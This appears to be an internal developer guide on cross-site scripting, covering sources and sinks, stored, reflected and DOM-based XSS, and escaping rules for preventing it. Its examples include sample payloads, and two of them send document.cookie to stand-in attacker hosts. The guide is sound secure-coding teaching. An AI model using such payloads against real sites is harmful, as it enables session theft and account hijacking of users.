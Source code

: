 # Sanitizing user input

## Aside: sanitizing user input when using a framework

React automatically escapes any values embedded in JSX before rendering them. This helps prevent XSS (cross-site-scripting) attacks.
In fact when you do want to embed html tags inside a React component, you need to use a function aptly called [dangerouslySetInnerHTML](https://reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml)

When not using a framework, it's something we need to take care of ourselves.

## What is XSS

A cross-site-scripting attack happens when an attacker succeeds in injecting client-side scripts into a webpage viewed by other users.

## Sources and sinks

Source = a part of our code where data enters that can be influenced by a user
Sink = a context where untrusted input could be executed

Problems arise when data can flow uninhibited from source to sink.

## Examples of a sink

```javascript
createNavigationItem(navigationData) {
  const {url, text} = navigationData;
    const navigationItem = elementFromString(`
      <li>
        <porphyrio-text-link url="${url}">${text}</porphyrio-text-link>
      </li>
    `);

    return navigationItem;
}
```

or

```javascript
  render() {
    this.shadow.innerHTML = `
      <a href="${this.url}"><slot></slot></a>
    `;
  }
```

Not a problem per se. But problems arise if a user can cause `url` being set to something like the following strings:

```javascript
"><img src="" onerror="alert(1)" />

javascript:alert(1);

" onmouseover="location.href='http://attackerwebsite.ru?'+document.cookie

```

Using DOMParser or setting innerHTML may cause these kinds of string to end up in the wrong context: adding new parts to an url, adding new statements to a piece of code, adding new elements to a piece of HTML.

## Example of a source

In our benchmark app users can pick a title for a filter. Sketchy input is not properly sanitized. This can pose a problem if this user input ends up unsanitized in a sink.

## There are three forms of XSS.

### Stored XSS

User input (eg a comment) that contains a script is not properly sanitized and stored in a database (or log) that is viewed at a later time by another user.

### Reflected XSS

A user is tricked into following a malicious link or submitting a form. The webserver _reflects_ the input it received back to the user's browser.

Example
Website has a linkable search results page. https://website.be/pages?search=abc Results are properly sanitized and sent to the server. Server replies with the search results but also embeds what the user searched for inside the page. Attacker can craft a link with an injected script and send it to a victim.
Replace for instance the `abc` with properly encoded <img src="badwebsite.com?victim="+document.cookie />

### DOM-based XSS

An attacker modifies the DOM “environment” in the victim’s browser used by a javascript framework or client side script, so that the client side code runs in an “unexpected” manner. Attacker could do this by tricking user into following a malicious link or submitting a form.
DOM-based XSS attack is client-side. The malicious payload is never sent to the server. It will not show up when analyzing server logs.

Example
`document.location.search` is part of the environment that can be changed by a user.
The `getQuery` method inside `phy-router/utils/SearchParams/SearchParams` returns a string that has not been escaped (yet). So as a developer we need to remember that it's not safe to immediately use it with `innerHTML` or `utils/elementFromString`.

### Aside: role of frameworks

The problem is aggravated when client side code uses a template system to embed text in webpages. Modern browsers have filters that detect XSS attempts but they don't check template expressions that may also execute injected scripts. See for example the [vulnerability that was discovered inside Vue's template syntax](https://github.com/dotboris/vuejs-serverside-template-xss) when used in a server side rendered app.

## Possible consequences:

- Impersonate or masquerade as the victim user.
- Carry out any action that the user is able to perform. (A CSRF attack)
- Read any data that the user is able to access.
- Capture the user's login credentials.
- Perform virtual defacement of the web site.
- Inject trojan functionality into the web site.

## How to prevent?

- when reviewing code, search for all places where input from a user could possibly make its way into the HTML output (from source to sink)
- use automated tools for checking
- use <abbr title="Content Security Policy">CSP</abbr>: a browser security mechanism that restricts the resources a page can load.

### Which characters need to be escaped?

This depends on the context where unescaped values could end up
Taking the contexts most important for us:

Inside of an element:

    & becomes &amp;
    < becomes &lt;
    > becomes &gt;

Inside of attribute values:

    " becomes &quot;
    ' becomes &#39;

When constructing an url:

Except for alphanumeric characters, encode all characters with ASCII values less than 256 with the %HH encoding format.

Extra precautions are needed when user input can end up in other contexts. See [OWASP XSS Prevention Rules](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#XSS_Prevention_Rules)

## Links

[OWASP Top 10 Web Application Security Risks](https://owasp.org/www-project-top-ten/)

Specific information on XSS: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
Look at the testing guides for the 3 different forms of XSS and cheat sheets with prevention tips.

[Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

[DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

